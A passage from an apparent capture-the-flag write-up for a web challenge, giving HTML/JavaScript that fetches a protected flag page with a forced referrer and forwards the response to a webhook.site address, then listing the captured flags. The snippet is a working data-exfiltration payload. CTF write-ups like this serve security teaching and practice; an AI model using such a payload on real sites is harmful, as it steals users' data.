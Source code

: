 The JavaScript code to get the flags and send it to us was the following:

```html
<html>
<head>
<title></title>
<script>
fetch("https://pwnzi.ctf.spamandhex.com/flag2", {referrer: "https://pwnzi.ctf.spamandhex.com/profile.html", referrerPolicy: "unsafe-url"}).then(response=>response.text())
    .then(function(response) { console.log(response); httpGet("https://webhook.site/c8c1a19e-5c12-46a1-be74-6d772d881d0f?"+encodeURIComponent(response)) });
</script>
</head>
<body>
<h1>Hello, World!</h1>
</body>
</html>
```

Flag 2 arrived successfully: `SaF{service_workers_are_useless_they_say}`

![Flag 2](webhooks.png "Flag 2")

Flag 3 was a bit problematic because it contained spaces instead of underscores, but base64 encoding it or sending the ASCII codes was enough.

Flag 3 was: `SaF{I never lose, I either win or I learn}`


## Other write-ups

- <https://ctftime.org/task/11532>
- <https://ctftime.org/task/11533>
